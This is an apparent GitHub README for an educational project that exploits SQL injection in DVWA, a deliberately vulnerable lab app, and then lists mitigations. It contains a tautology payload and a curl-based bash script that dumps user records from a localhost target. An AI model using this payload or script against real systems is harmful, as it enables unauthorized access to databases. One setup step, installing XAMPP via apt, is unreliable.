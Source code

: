 
# 🔓 SQL Injection Exploitation Project

## 📌 Objective

The primary goal of this project is to demonstrate how SQL Injection (SQLi) vulnerabilities in web applications can be exploited. This is done using a deliberately vulnerable application (DVWA - Damn Vulnerable Web Application). The project highlights the steps to exploit the vulnerability and suggests mitigations to prevent such attacks in real-world applications.

---

## 🛠️ Tools and Technologies Used

- **DVWA (Damn Vulnerable Web Application)**
- **XAMPP / LAMP / Docker** (for local web server)
- **Burp Suite** (optional for intercepting requests)
- **SQLMap** (optional for automation)
- **Linux Bash**
- **Browser Developer Tools**
- **Wireshark** (optional, to inspect network traffic)
- **`sql_injection_exploit.sh`** (custom script to demonstrate SQLi)

---

## ⚙️ Setup Instructions

### 1. Install DVWA
You can install DVWA using any of the following:

#### Option 1: XAMPP (Recommended for beginners)
```bash
# Download and install XAMPP
sudo apt install xampp
```

#### Option 2: Docker
```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
docker build -t dvwa .
docker run -d -p 80:80 dvwa
```

### 2. Configure DVWA
1. Go to `http://localhost/dvwa/setup.php`
2. Click **"Create / Reset Database"**
3. Set **DVWA Security Level** to **Low** under *DVWA Security* settings.

---

## 💥 SQL Injection Exploit

### 🧪 Step-by-step Guide

1. **Open DVWA Login Page**
   ```
   http://localhost/dvwa/vulnerabilities/sqli/
   ```

2. **Test for SQLi Manually**

   Try the following payload in the User ID field:
   ```
   1' OR '1'='1
   ```

   If the system returns all users or login is successful without valid credentials, the app is vulnerable.

3. **Exploit using Script**

   Run the provided `sql_injection_exploit.sh`:
   ```bash
   chmod +x sql_injection_exploit.sh
   ./sql_injection_exploit.sh
   ```

   ✅ This script sends a crafted SQLi payload to the vulnerable URL and extracts sensitive info from the database.

---

## 📄 `sql_injection_exploit.sh` Description

The shell script sends a vulnerable SQL query using `curl` and extracts results using `grep`/`sed`.

**Example Content:**
```bash
#!/bin/bash

# Target URL
URL="http://localhost/dvwa/vulnerabilities/sqli/"

# SQLi Payload
PAYLOAD="1' OR '1'='1"

# Sending request with payload
echo "[+] Sending SQL Injection payload..."
curl -s -b "security=low; PHPSESSID=your_session_id" -d "id=${PAYLOAD}&Submit=Submit" "${URL}" | grep -A 5 "First name"
```

> ⚠️ Make sure to replace `your_session_id` with the session ID from your DVWA session (can be copied from browser Dev Tools).

---

## 🛡️ How to Patch the Vulnerability

### ✅ Mitigation Techniques

- **Use Prepared Statements (Parameterized Queries)**:
  ```php
  $stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
  $stmt->execute([$id]);
  ```

- **Input Validation and Sanitization**: Whitelist allowed inputs.

- **Use Web Application Firewall (WAF)**: To block common attack patterns.

- **Error Handling**: Do not reveal database errors to users.

- **Least Privilege Principle**: The database user should have only the necessary privileges.

---

## 📁 GitHub Deliverables

| File                    | Description                                     |
|-------------------------|-------------------------------------------------|
| `sql_injection_exploit.sh` | Shell script that demonstrates SQL Injection |
| `README.md`             | This file, explaining the entire project       |

---

## 📷 Screenshots (Optional)

> Add screenshots or a video demo showing successful exploitation and results here.

---

## 📚 References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [DVWA GitHub](https://github.com/digininja/DVWA)
- [W3Schools - SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)

---

## 🛑 Disclaimer

> This project is intended **for educational purposes only**. Do not attempt to exploit real websites without explicit permission.

---

## 👨‍💻 Author

- **Name**: Rahul Prasad  
- **GitHub**: [yourusername](https://github.com/yourusername)  
- **LinkedIn**: [yourLinkedIn](https://linkedin.com/in/yourprofile)
